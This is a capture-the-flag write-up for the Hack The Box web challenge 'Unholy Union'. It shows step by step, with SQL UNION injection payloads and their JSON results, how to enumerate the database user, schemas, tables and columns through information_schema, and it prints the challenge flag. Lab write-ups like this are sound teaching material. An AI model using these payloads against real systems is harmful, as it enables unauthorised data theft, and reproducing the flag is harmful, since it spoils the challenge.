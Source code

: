 # Web - Unholy Union

## Description

On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics. Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living. Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's inventory system responds to those who know how to merge the right requests. Can you brave the haunted inventory system and unravel the ghostly union of data before the spirits corrupt the world beyond?

## Homepage

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

The challenge name and the query itself says this can be solved through `SQL Union Injection`

## Attack

### Table description

First we can search with a   to see the table description (a space will match all characters since it's using SQL `LIKE` operator)

```js
{
    "id": 1,
    "name": "Plumbus",
    "description": "A highly useful multi-purpose tool.",
    "origin": "Planet Schlooch",
    "created_at": "2024-10-22T14:12:33.000Z"
  },
```

so it's `int,str,str,str,date`

### User

```sql
ads'union select 1,user(),"","",NULL-- -
```

Result:

```json
[
  {
    "id": 1,
    "name": "user@localhost",
    "description": "",
    "origin": "",
    "created_at": null
  }
]
```

### Databases

```sql
SELECT * FROM inventory WHERE name LIKE '%ads'union select 1,schema_name,"","",NULL from information_schema.schemata-- -%'
```

Result

```json
[
  {
    "id": 1,
    "name": "information_schema",
    "description": "",
    "origin": "",
    "created_at": null
  },
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "",
    "origin": "",
    "created_at": null
  },
  {
    "id": 1,
    "name": "test",
    "description": "",
    "origin": "",
    "created_at": null
  }
]
```

Our interest lies in `halloween_invetory` database

### Tables

```sql
aaa'union select 1,table_schema,table_name,NULL,NULL from information_schema.tables where table_schema="halloween_invetory"-- -
```

Result:

```json
[
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "flag",
    "origin": null,
    "created_at": null
  },
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "inventory",
    "origin": null,
    "created_at": null
  }
]
```

So there are **2 tables, flag and inventory**

Let's get our flag....

### Column

```sql
SELECT * FROM inventory WHERE name LIKE '%aaa'union select 1, NULL,table_name,column_name,NULL from information_schema.columns where table_name="flag"-- -%'
```

Result:

```json
[
  {
    "id": 1,
    "name": null,
    "description": "flag", //table name
    "origin": "flag", //column name
    "created_at": null
  }
]
```

We have 1 column named flag......

### Flag

```sql
SELECT * FROM inventory WHERE name LIKE '%aaa'union select \
1, flag, NULL, NULL, NULL from halloween_invetory.flag-- -%'
-- so halloween_invetory.flag is database.table (we usually use this way to get 
-- values from other database (if we know db name && table name && column name)
```

```json
[
  {
    "id": 1,
    "name": "HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_9c967dbf96425dc2df3b06135f0d003d}",
    "description": null,
    "origin": null,
    "created_at": null
  }
]
//name here is one of the value in column flag 
```

`HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_9c967dbf96425dc2df3b06135f0d003d}`\


\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
